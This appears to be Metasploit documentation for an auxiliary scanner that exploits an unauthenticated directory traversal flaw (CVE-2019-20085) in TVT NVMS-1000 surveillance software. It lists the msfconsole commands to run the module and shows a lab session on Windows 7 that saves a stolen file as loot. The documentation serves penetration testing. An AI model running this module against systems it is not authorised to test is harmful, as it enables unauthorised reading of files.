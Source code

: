 ## Description

This module exploits an unauthenticated directory traversal vulnerability which exists in TVT network surveillance management software-1000 version 3.4.1. NVMS listens by default on port 80.

### Vulnerable Application

* http://en.tvt.net.cn/upload/service/NVMS1000.zip

## Verification

1. `./msfconsole`
2. `use auxiliary/scanner/http/tvt_nvms_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Windows 7 SP1

```
msf auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 192.168.43.152
RHOSTS => 192.168.43.152
msf auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] File saved in: /root/.msf4/loot/20191230124941_default_192.168.43.152_nvms.traversal_240600.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/tvt_nvms_traversal) >
```

## References

* https://www.exploit-db.com/exploits/47774
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20085
